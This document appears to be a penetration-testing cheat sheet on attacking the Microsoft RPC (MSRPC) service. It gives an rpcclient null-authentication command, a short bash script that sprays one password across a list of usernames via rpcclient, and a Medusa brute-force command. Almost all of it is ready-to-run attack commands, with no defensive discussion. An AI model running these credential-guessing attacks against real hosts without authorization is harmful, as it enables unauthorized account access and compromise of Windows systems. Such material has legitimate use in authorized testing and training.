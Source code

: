 # MSRPC

## 01 - Null Authentication

```
$ rpcclient -U "" [-p 593] -N <IP>
```

## 02 - Brute Force

### 2.1 - Automated Script

```bash
#!/bin/bash

while read -r username
do
    echo -n "[*] user: $username" && rpcclient -U "$username%$2" -c "getusername;quit" $3
done < "${1}"
```

Syntax as it follows.

```
$ chmod 755 password-spraying.sh

$ ./password-spraying.sh users.lst <password> <IP>
```

### 2.2 - Medusa

```
$ medusa -u <username> -p <password> -h <IP> -M msrpc
```

---
## References

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Windows/MSRPC|Active Fingerprint: MSRPC]]